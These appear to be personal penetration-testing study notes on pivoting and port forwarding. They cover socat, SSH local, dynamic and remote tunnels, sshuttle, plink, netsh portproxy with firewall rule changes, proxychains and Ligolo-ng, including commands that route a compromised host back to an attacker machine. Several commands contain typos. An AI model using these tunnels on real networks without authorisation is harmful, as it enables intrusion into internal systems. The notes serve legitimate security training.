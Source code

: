 ## Section 2 Port Forwarding With Linux Tools 
### 18.2.3 Port Forwarding With Socat
- Example of a socat tunnel
```
socat -ddd TCP-LISTEN:2345;fork TCP:<TARGETIP>:5432(INTERNAL INFO)
```

## Section 3 SSH Tunneling
### 18.3.1 SSH Local Port Forwarding
- Upgrade a shell if it has python with 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- The following is a bash for loop to sweep for hosts with an open port 445 on a /24 subnet
```
for i in $(seq 1 254); do nc -zv -w 1 IP.$i 445; done
```
- SSH local port forward is executed on the target machine 
	- The first address is the listening socket that will be bound to the ssh client machine 
	- The second is where we want to forward the packets to
	- Example on the WAN device run
```
ssh -N -L 0.0.0.0:4455:<TARGET_IP>:445
```
- sshuttle forwarding 
```
sshttle pi@pi_ip TARGET_IP/24 
```
### 18.3.2 Dynamic Port Forwarding
- Dynamic port forward with 
```
ssh -N -D 0.0.0.0:9999 <TARGET_USER>@<TARGET_IP>
```
- THEN 
	- edit proxychains.conf 
	- THEN
		- run proxychains before your command
- On the pi run 
```
ssh -D 127.0.0.1:9052 pi@pi_ip
```
- Then
```
ssh -R 127.0.0.1:9051:127.0.0.1:9052 kali_username@kali_ip
```
- Run your commands on the target with proxychains prefix
### 18.3.3 Remote Port Forwarding
- ssh remote port forward option is -R and takes two arguments 
	- First is the listening socket then the forwarding socket
	- Example 
	- On target machine
```
ssh -N -R 127.0.0.1:2345:<TARGET_IP>:<TARGET_PORT> kali@<MY_IP>
```
- THEN example of a command after this is established with pgsql
```
psql -h 127.0.0.1 -p 2345 -U postgres
```
### 18.3.4 Remote Dynamic Port Forwarding
- In remote dynamic port forwarding you only pass one argument whic is the socket you want to listen to on the ssh server 
- Example 
```
ssh -N -R 9998 kali@<MY_IP>
```
- Example command from my machine 
```
proxychains nmap -vvv -sT --top-ports=20 -Pn -n <TARGET_IP>
```
### 18.3.5 Using sshuttle
- sshuttle requires root privileges and python3 on the server 
	- This essentially creates a vpn 
	- You use it by specifying the ssh connection you want to use as well as the subnets you want to tunnel through the connection like 
- On the target machine 
```
socat TCP-LISTEN:2222,fork TCP:<TARGET_IP>:<TARGET_PORT>
```
- On my machine
```
sshuttle -r <TARGET_USER?@<TARGET_IP>:<PORT> <TARGET_IP/CIDR (10.0.50.0/240) <OTHER_TARGET_IP/CIDR>
```
- Example command on my computer after this 
```
smbclient -L //<TARGET_IP>/ -U <USER_NAME> --password=<PASSWORD>
```
## Section 4 Port Forwarding with Windows Tools 
### 16.4.1 ssh.exe 
- xfreerdp one liner 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:<TARGET_IP>
```
- plink.exe is a cli putty but does not have remote dynamic port forwarding 
- plink one liner for rdp access
```
C:\Windows\Temp\plink,exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 <TARGET_IP>
```
- On my machine run 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:127.0.0.1:9833
```
### 18.4.3 Netsh
- netsh one-liner for ssh tunneling
```
netsh interface portproxy ad v4tov4 listemport=2222 listenaddress=<COMPUTER_IP> connectport=<TARGET_PORT> connectaddress=TARGET_IP>
```
- Example command from my computer 
```
sudo nmap -sS <COMPUTER_IP> -Pn -n -p2222
```
- To poke a hole in the firewall to allow a connection with netsh the one-liner on the target machine is 
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<COMPUTER_IP> localport=2222 action=allow
```
- Delete the firewall rule with the following command 
```
netsh advfirewall delete rule name="port_forward_ssh_2222"
```
- Delete port proxy with netsh that was created with the following one-liner
```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=<COMPUTER_IP>
```
### ProxyChains
- First edit /etc/proxychains.conf and make sure the below line is added
```
...
socks5 <HOST> 1080
```
- Execute commands with proxychains by using 
```
proxychains <COMMAND_TO_EXECUTE_ON_TARGET>
```
#### SSH
- From target (ssh server on attacker)
```
ssh -fN -R <PORT> root@<ATTACKER_IP>
```
- From attacker (ssh server on target)
```
ssh -fN -D <PORT> <USER>@<TARGET_IP>
```
### Ligolo-ng
- Prep (on attacker machine)
```
ip tuntap add user <USER> mode tun ligolo
```
```
ip link set ligolo up
```
```
ip route add <NETWORK> dev ligolo
```
- on attacker (proxy)
```
ligolo -selfcert -laddr 0.0.0.0.:8000
```
- on target (agent)
```
ligolo 0connect <ATTACKER_IP>:8000 -ignore-cert
```
- MainUI on attacker
```
session
start
listener_add --addr 0.0.0.0:<TARGET PORT> --to 127.0.0.1:<KALI PORT> --tcp
```